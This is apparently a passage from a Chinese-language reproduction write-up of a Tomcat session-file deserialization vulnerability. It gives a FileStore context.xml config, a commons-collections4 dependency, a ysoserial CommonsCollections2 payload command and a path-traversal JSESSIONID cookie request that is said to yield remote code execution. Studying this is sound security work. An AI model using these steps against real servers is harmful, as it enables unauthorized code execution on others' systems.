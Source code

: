 
它破坏了双亲委托模型的隐式加载，因为当前访问的是bug这个context项目（看后面），所以，一般情况下，`Thread.currentThread().getContextClassLoader()`取到的类加载器将会是应用类加载器，所以能加载得到WEB-INF/lib的依赖。



## 4. 漏洞复现

1. 配置tomcat的conf/context.xml文件：

```html
<Context>

    ...

    <Manager className="org.apache.catalina.session.PersistentManager"
      debug="0"
      saveOnRestart="false"
      maxActiveSession="-1"
      minIdleSwap="-1"
      maxIdleSwap="-1"
      maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>
</Context>
```


2. 部署一个存在以下依赖的webapp到tomcat：
   - 一个存在 `org.apache.commons:commons-collections4:4.0` 的jar 依赖的 web服务，例bug.war

```java
dependencies {
    compile 'org.apache.commons:commons-collections4:4.0'
}
```


3. 使用github上的ysoserial工具
   - `https://github.com/frohoff/ysoserial`
   - 生成commons-collections4依赖的gadget恶意序列化数据：
   - 通过有缺陷的文件上传功能把恶意序列化数据文件上传到任意目录，但后缀必须是“.session”，例如：/tmp/22222.session


```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/tomcat-bug" > /tmp/22222.session
```


4. 最后，发起恶意请求，请求payload：
   - 将会导致服务端远程代码执行。

```
GET /bug/api HTTP/1.1Host: 127.0.0.1:8080Cookie: JSESSIONID=../../../../../../../../../../../../tmp/22222
```

---
